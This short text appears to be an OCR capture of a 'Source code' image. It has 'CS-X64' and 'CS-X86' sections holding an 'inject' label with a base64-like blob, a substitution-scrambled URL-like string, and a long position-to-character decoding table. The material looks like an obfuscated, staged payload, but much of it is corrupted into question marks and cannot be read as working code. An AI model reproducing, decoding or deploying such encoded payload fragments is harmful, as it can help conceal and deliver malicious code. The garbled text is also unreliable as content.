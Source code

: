 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

ewgth46????|??2,8;????6,w;????1???0??,D??;1?4,l;???1?8?,?i;22,????.;26???,h;3????0,4?;34,e??;38???,G;???4?2,B;4???6,L??;50??,I;54???,????t?;?58,?S????;6??2,U?;66,J????;?70,m;???74,K??;????78,a?;82,D???;86??,Z;90????,???y;94,????J;98,???q;1??02,w;??106?,f;????11??0,??G;114???,.;????118????,q????;??1??22,??J?;126,????V;???13????0,R;1????34,9;???1?38,????9;1??42???,????8;14??6,??A;????150,?f;???15??4,???0;158????,???3;16????2,I;1??66??,S;17?0,1;1????74??,L????;1??78,K;????18?2?,R;|?uyH8??msgw??in????tDztm??ltELi?w5v.????JHD??hOv????Y4d???Bbe?s?HfGP???zzBHf?oLgB?nI???tTNt????Iz????BSjLS????UMy5J????D?rvmYK???oK?rxm????a?dmeD????z1?eZwD???EyrMf???JNt??zq????vK????Z?w????Wu??tf????Dfw????GvD?P.??o5tqA???bwJ4????eW??Vdt??nRB????kf9U?Pt?9zx???H???8????1???rzA????w?OK??fnHD0???jMx3N?r???bIAI????tS????0Lz1???HvsLg???B?mKu??ZtR??=0fwsed
